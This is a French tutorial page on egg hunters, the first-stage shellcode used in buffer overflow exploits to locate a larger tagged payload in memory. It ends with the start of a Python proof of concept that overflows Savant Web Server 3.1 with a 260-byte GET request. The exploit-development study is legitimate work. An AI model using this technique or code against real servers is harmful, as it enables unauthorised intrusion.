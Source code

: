 # Egg Hunters

!!! note ""

    Dans certains cas d'exploitation de dépassement de tampon, seul un espace mémoire restreint n'est rendu disponible rendant difficile le stockage du *payload*. La technique de *egghunter* a pour objectif d'identifier des zones propices au stockage du *payload*.

## Théorie

Dans le cas où l'espace du payload est limité, il existe deux options :

- Utiliser un shellcode plus petit avec moins de fonctionnalité
- Trouver un buffer additionnel dans une autre région de la mémoire avant le crash et de rediriger le flot d'exécution vers ce buffer

Si on arrive à stocker un *buffer* plus large ailleurs on peut utiliser le premier *buffer* pour écrire un *shellcode* de type *first-stage*. L'objectif de ce *shellcode* sera de rediriger le flot d'exécution vers le deuxième buffer ou on aura assez de place pour stocker un *payload* plus large.

Quand on doit trouver l'adresse mémoire d'un autre *buffer* sous notre contrôle dont l'adresse n'est pas statique on utilise des *egghunter*.

- Un *egghunter* est un payload *first-stage* qui permet de chercher le `Virtual Address Space` (VAS) du processus à la recherche d'un *egg*
- Un *egg* est un tag unique qui précède le payload qu'on veut exécuter
- Une fois le *egg* trouvé le *egghunter* transfert l'exécution vers le shellcode final en faisant un jump vers l'adresse trouvée

Les *egghunter* sont écrits dans le cas de problème de restriction mémoire et sont donc aussi petits que possible :

- Ils doivent aussi être rapides à s'exécuter et à trouver le *egg* pour éviter de *hang* l'application trop longtemps
- Ces payloads doivent aussi gérer les *access violations* déclenchés lors de l'accès à de la mémoire non mappée ou d'adresse à laquelle on a pas accès

## Pratique

L'exemple utilisé sera l'exploit portant sur l'application [`Savant Web Server 3.1](https://www.exploit-db.com/exploits/38079).

### Valider l'exploit

Preuve de concept en Python :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"GET /"
  inputBuffer = b"\x41" * size
  httpEndRequest = b"\r\n\r\n"

  buf = httpMethod + inputBuffer +  httpEndRequest

  print("Sending buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
```